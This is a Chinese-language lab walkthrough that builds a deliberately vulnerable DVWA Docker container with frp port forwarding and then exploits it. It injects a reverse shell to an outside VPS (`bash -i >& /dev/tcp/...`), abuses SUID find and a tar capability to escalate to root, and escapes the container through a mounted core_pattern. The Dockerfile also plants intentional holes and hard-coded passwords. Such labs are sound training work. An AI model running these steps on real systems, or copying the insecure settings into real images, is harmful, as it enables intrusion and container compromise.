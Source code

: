 ```yaml
---
categories: [云原生]
tags: 容器逃逸 Docker
---
```


# 2023.08.28

## 0x01 环境搭建

使用到的机器：sec-container2（IP：10.255.200.87）、阿里云 vps（8.130.104.104）、本地 kali 虚拟机（10.211.55.4）

### 1.1 Dockerfile 如下：

```bash
# 基于基础镜像centos-lamp进行自定义
FROM dockerfiles/centos-lamp
# 将工作目录设置为/var/www/html 接下来的操作都在这个目录下进行
WORKDIR /var/www/html
# 使用wget下载文件 然后解压到当前工作目录 --strip-components=1表示解压时去掉一个顶层目录
RUN wget https://github.com/RandomStorm/DVWA/archive/v1.0.8.tar.gz -O- | tar xvz --strip-components=1
# 启动mysql服务 使用mysqladmin命令将root用户的密码改为p@ssw0rd 停止mysql服务
RUN service mysqld start && mysqladmin -uroot password p@ssw0rd && service mysqld stop
# 容器将监听并暴露在主机上的80端口，以便通过主机的80端口访问容器中的web服务
EXPOSE 80
USER root
# 更换镜像源（需提前将Centos-vault-6.10.repo从https://mirrors.aliyun.com/repo/Centos-vault-6.10.repo目录下载到本地）
COPY ./Centos-vault-6.10.repo /home
COPY ./here_u_r.txt /root
COPY ./open_me.txt /home
WORKDIR /home
RUN rm -rf /etc/yum.repos.d/*
RUN cp -r ./Centos-vault-6.10.repo /etc/yum.repos.d/CentOS-Base.repo
RUN yum clean all
RUN yum makecache
WORKDIR /var/www/html
# 安装sudo
RUN rpm --rebuilddb && yum install -y sudo && yum install -y gcc
# 给用户apache设置密码
RUN echo 'apache:%Kin,qnEfJQ]r;YY' | chpasswd
# 给find指令设置suid权限+除root用户外其他用户不能执行getcap指令+给tar指令设置cap_dac_read_search capability
RUN chmod u+s $(which find) && \
    chmod 700 $(which getcap) && \
    setcap 'cap_dac_read_search=ep' $(which tar)
# apache用户可以使用sudo passwd修改密码
RUN echo 'apache ALL=(ALL) /usr/bin/passwd' > /etc/sudoers.d/apache-password
CMD ["supervisord", "-n"]
```

~~注：由于本地的虚拟机可以找到内网的 sec-container2 机器，但是内网机器无法找到 kali 虚拟机，因此需要在 vps 与 kali 之间进行端口映射。~~

注：可以直接在内网机器和 vps 之间进行端口映射。内网机器为客户端，vps 为服务端。配置好之后可以直接利用公网 ip+相应端口访问相应的服务。

### 1.2 使用 frp 配置端口映射：

frp：内网穿透和反向代理软件，支持 tcp，udp，http，https 等协议

#### 1.2.1 工作原理：

- 服务端运行，监听一个主端口，等待客户端的连接；
- 客户端连接到服务端的主端口，同时告诉服务端要监听的端口和转发类型；
- 服务端 fork 新的进程监听客户端指定的端口；
- 外网用户连接到客户端指定的端口，服务端通过和客户端的连接将数据转发到客户端；
- 客户端进程再将数据转发到本地服务，从而实现内网对外暴露服务的能力。
-

#### 1.2.2 具体流程：

可参考[frp](https://www.cnblogs.com/henry666/p/13966992.html)

<font color="#808080">注：需要给 vps 相应端口添加安全组入方向访问规则。</font>

<u>根据靶场的设计思路，需要设置两个端口映射（3333<---->5555；4444<---->6666</u>

```bash
# 阿里云vps:frp服务端
[common]
bind_port = 7000

dashboard_port = 7777

dashboard_user = admin

dashboard_pwd = admin

# 启动服务端服务
./frps -c ./frps.ini
```

```bash
# kali虚拟机：frp客户端
[common]
server_addr = 8.130.104.104
server_port = 7000

[forward1]
type = tcp
local_ip = 127.0.0.1
local_port = 4444
remote_port = 6666

[forward2]
type = tcp
local_ip = 127.0.0.1
local_port = 3333
remote_port = 5555

#启动客户端服务
./frpc -c ./frpc.ini
```

---

### 1.3 宿主机启动容器

```bash
# 使用Dockerfile创建自定义的镜像
docker build -t dvwa .
# 以守护进程模式后台+特权模式启动容器，映射80端口，挂载宿主机procfs
docker run --privileged -d -p 80 -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern dvwa
```

![image2023-8-28_14-13-16.png](https://s2.loli.net/2023/10/08/fy2xhaDXSk9PMRJ.png)

### 1.4 kali 端：

1. 打开浏览器，使用**ip 地址+相应端口（10.255.200.87:32774）**在浏览器中访问 dvwa 服务（初始化步骤省略）
2. 任意利用其中某个漏洞，进行反弹 shell（此处使用命令注入漏洞）
   1. 在终端窗口中开启 nc 监听（nc -nlvp 4444）
   2. 命令注入输入框输入<code>;bash -i >& /dev/tcp/8.130.104.104/6666 0>&1</code>获取 shell
      ![image2023-8-28_14-18-56.png](https://s2.loli.net/2023/10/08/pf4ighKaJSQ6bNx.png)
3. **/home**目录下存在一个 txt 文件
   ![image2023-8-28_14-27-43.png](https://s2.loli.net/2023/10/08/r2OiWwlYBZTzaXM.png)
4. 使用 find 指令查找具有 suid 权限的指令 <code>find / -perm -u=s -type f 2>/dev/null</code>
   1. ![image2023-8-28_14-22-11.png](https://s2.loli.net/2023/10/08/nHzxh6u4TrALEp7.png)
   2. 在/tmp 目录下新建一个文件，利用 find 指令的-exec 选项执行指令 <code>find 1 -exec getcap -r / 2>/dev/null \;</code>
   3. ![image2023-8-28_14-26-0.png](https://s2.loli.net/2023/10/08/YieAUL9nQCcS1hr.png)
5. 使用 tar 指令将/root 目录压缩至/tmp 目录，解压查看目录下文件
   1. ![image2023-8-28_14-29-34.png](https://s2.loli.net/2023/10/08/lnUNtTX3xYmrujo.png)
   2. ![image2023-8-28_14-29-34.png](https://s2.loli.net/2023/10/08/lnUNtTX3xYmrujo.png)
   3. brainfuck->base64-><code>,%Kin,qnEfJQ]r;YY</code>
6. 将当前 shell 切换为完整 tty，成功后输入该字符串，修改密码
   ![image2023-8-28_14-35-1.png](https://s2.loli.net/2023/10/08/wulVSzNyC5jKMOm.png)
7. 尝试使用 su 指令登录 root 用户
   ![image2023-8-28_14-36-47.png](https://s2.loli.net/2023/10/08/wuIUpbSvLeNjG9m.png)
8. 参考[Docker 容器逃逸](https://wuheuu.github.io/docker/Docker容器逃逸/)中 3.2 部分进行利用，.x.py 文件中 ip 地址设置为 8.130.104.104，端口设置为 5555。kali 开启 3333 端口监听，在之前的 shell 中执行 x 文件，制造崩溃，拿到 shell。
   ![image2023-8-28_14-42-23.png](https://s2.loli.net/2023/10/08/VW26reyTMJnSBEu.png)
9. 将 shell 切换为完整 tty，使用<code>export PATH=$PATH:/usr/sbin</code>添加/usr/sbin 环境变量，执行 ifconfig 指令。
   1. 逃逸出来
      ![image2023-8-28_14-44-9.png](https://s2.loli.net/2023/10/08/zqHA1XBkrMogLCG.png)
   2. 与容器内 ifconfig 返回结果进行对比
      ![image2023-8-28_14-45-6.png](https://s2.loli.net/2023/10/08/Pby8VjXiBsmSHwo.png)

---

## 0x02 附录：

- 正向 shell 与反向 shell（bind shell & reverse shell）**具体可看参考资料(3)**
  - 正向 shell：攻击者可以在靶机上启动一个服务，从而使得攻击者可以连接这个服务并执行一些命令。如果要启动一个 bind shell，攻击者必须有目标机器的 ip 地址。
  - 反向 shell：攻击者需要在攻击端机器上启动一个服务器，靶机作为客户端来连接这个服务器。成功连接后，攻击者可以得到靶机的 shell。要使用反向 shell，攻击者不需要知道目标机器 ip 地址。
- 运行容器时注意需要开启--privileged 选项或者使用--cap-add，否则很多指令将无法执行，即使用户在容器内是 root 身份
- 在反弹的 shell 中有些命令无法执行可能是由于忘记将 shell 切换为完整 tty
- 尝试修改密码时出现 passwd:passwd: system_u:system_r:spc_t:s0 is not authorized to change the password of root，原因是宿主机未关闭 SElinux 强制访问控制，需要关闭后重启宿主机，并使用 getenforce 进行验证。

---

## 0x03 参考资料：

1. [frp](https://www.cnblogs.com/henry666/p/13966992.html)
2. [bind shell & reverse shell](https://www.geeksforgeeks.org/difference-between-bind-shell-and-reverse-shell/)
3. [正向 shell 与反向 shell](https://blog.csdn.net/weixin_45936149/article/details/123752352)
